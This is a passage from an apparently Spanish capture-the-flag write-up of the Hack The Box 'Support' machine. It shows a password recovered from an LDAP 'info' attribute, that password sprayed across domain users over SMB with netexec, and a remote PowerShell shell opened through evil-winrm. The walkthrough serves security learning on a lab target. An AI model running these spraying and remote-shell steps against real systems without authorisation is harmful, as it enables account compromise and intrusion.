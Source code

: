 En el atributo `info` podemos ver lo que parece ser una contraseña válida. También podemos notar que este usuario forma parte del grupo `Remote Management Users` por el atributo `memberOf`

~~~ bash
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
~~~

Intentaremos validar estas credenciales para cada usuario para ver si son válidas para más de un usuario

~~~ bash
nxc smb 10.10.11.174 -u users.txt -p 'Ironside47pleasure40Watchful'                 
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [-] support.htb\Administrator:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\Guest:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\krbtgt:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\ldap:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful
~~~

Recordemos que el puerto `5985` se encuentra abierto, esto pertenece al servicio `winrm`, el cual es un protocolo que nos permite conectarnos remotamente a una máquina para "administrarla remotamente", pero claro, nosotros no tenemos esas intenciones.

Podemos verificar que la cuenta `support` utilizando `netexec`, si aparece `Pwned`, entonces tenemos los privilegios suficientes para conectarnos con una consola

~~~ bash
nxc winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful' 
WINRM       10.10.11.174    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
~~~

### Shell as `support`

Y es el caso, por lo que ahora podemos hacer uso de `evil-winrm` para conectarnos con `powershell`

~~~ bash
evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
                                        
Evil-WinRM shell v3.5
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
~~~
<br>
